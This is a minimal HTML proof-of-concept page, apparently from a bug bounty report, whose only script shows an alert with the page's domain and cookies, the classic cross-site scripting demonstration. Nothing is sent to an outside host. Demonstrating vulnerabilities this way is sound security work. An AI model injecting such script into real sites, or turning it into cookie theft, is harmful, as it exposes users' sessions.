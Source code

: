 <!DOCTYPE html>
<html>
<head>
	<title>PoC</title>
</head>
<body>
<h1>H1 PoC</h1>

<script type="text/javascript">alert(document.domain + ' ' + document.cookie);</script>
</body>
</html>
